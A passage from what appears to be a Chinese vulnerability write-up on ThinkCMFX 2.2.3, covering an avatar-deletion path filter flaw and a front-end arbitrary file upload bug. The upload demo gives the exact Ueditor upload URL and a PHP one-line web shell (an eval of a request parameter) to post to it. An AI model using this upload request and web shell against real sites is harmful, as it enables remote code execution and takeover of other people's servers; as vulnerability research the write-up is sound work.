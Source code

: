 从文件可以看到 $imgurl=str_replace('/','',$imgurl); 过滤了 / 但是没有过滤 所以我们无法引入 / 并且在更新头像以后还会从前端接收参数 imgurl 带入函数sp_delete_avatar 跟进去

路径：ThinkCMFX\application\Common\Common\function.php
方法：function sp_delete_avatar(

![image](../img/3dc20222ddd61f972a6fdd6fdcb4fffd.png)

#### 0x04 前台任意上传漏洞

##### 0x04.1 漏洞演示

记得一定要登录!
记得一定要登录!
记得一定要登录!
记得在前台注册一个账号进行登录或是直接登录后台然后在访问此地址

```
打开url: http://atest.test/cms/ThinkCMFX_2.2.3/index.php?g=Asset&m=Ueditor&a=upload&action=uploadfile
POST:
file = php一句话木马的文件 `1.php

<?php

eval($_REQUEST[1]);

?>` 
```

![image](../img/69bf74011cb03bde73e57fc90d64edc6.png)
